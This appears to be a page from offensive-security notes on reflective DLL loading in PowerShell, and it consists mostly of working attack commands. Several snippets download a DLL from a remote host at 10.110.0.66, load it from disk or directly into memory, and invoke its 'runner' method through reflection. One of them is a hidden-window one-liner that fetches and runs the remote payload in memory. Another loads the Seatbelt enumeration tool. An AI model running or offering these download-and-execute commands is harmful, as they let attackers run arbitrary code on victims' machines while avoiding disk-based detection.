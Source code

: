 # Reflective DLL loading

## Reflective DLL loading

### Drop a dll on disk

```csharp
New-Object System.Net.WebClient).DownloadFile("http://10.110.0.66/ClassLibrary2.dll","ClassLibrary2.dll")

# Load the Assembly
$assem = [System.Reflection.Assembly]::LoadFile("C:\Users\b3v1l\ClassLibrary2.dll")

# Use Reflection (GetType and GetMethod)
$class = $assem.GetType("ClassLibrary2.Class1")

$method = $class.GetMethod("runner")
$method.Invoke(0, $null)
```

![](../../.gitbook/assets/image%20%28216%29.png)

{% hint style="warning" %}
DLL is downloaded and saved on the disk.
{% endhint %}

### Load a local file 

#### Modify your exe 

![](../../.gitbook/assets/image%20%2866%29.png)

```csharp
[System.Reflection.Assembly]::LoadFrom("C:\Users\b3v1l\Scripts\Seatbelt.exe")
$a = New-Object Seatbelt.I
$a.Invoke("-group=user") 
```

### Load in memory

```csharp
$data = (New-Object System.Net.WebClient).DownloadData("http://10.110.0.66/ClassLibrary2.dll")

# Load the Assembly
$assem = [System.Reflection.Assembly]::Load($data)

# Use Reflection (GetType and GetMethod)
$class = $assem.GetType("ClassLibrary2.Class1")

$method = $class.GetMethod("runner")
$method.Invoke(0, $null)


```

![](../../.gitbook/assets/image%20%2852%29.png)

#### One liner

```csharp
powershell.exe -windowstyle hidden -c $data = (New-Object System.Net.WebClient).DownloadData("http://10.110.0.66/ClassLibrary2.dll");$assem = [System.Reflection.Assembly]::Load($data);$class = $assem.GetType("ClassLibrary2.Class1");$method = $class.GetMethod("runner");$method.Invoke(0, $null)
```

